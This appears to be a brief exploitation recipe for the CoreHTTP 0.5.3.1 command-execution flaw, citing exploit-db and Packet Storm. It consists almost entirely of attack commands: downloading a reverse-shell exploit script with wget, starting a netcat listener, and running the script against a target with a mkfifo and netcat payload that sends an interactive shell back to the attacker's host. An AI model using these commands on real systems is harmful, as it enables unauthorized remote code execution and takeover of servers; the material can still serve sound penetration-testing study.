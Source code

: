 ### Download exploit
```
wget https://raw.githubusercontent.com/tobor88/Bash/master/corehttp-rev-shell.sh
```

### Start listener
```
nc -nlvp <lport>
```

### Run exploit
```
bash corehttp-rev-shell.sh -u 'http://<rhost>:<rport>/dev/foo.pl' -s 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <lhost> <lport> >/tmp/f'
```

References:  
https://www.exploit-db.com/exploits/10349  
https://packetstormsecurity.com/files/84212/CoreHTTP-0.5.3.1-Command-Execution.html  

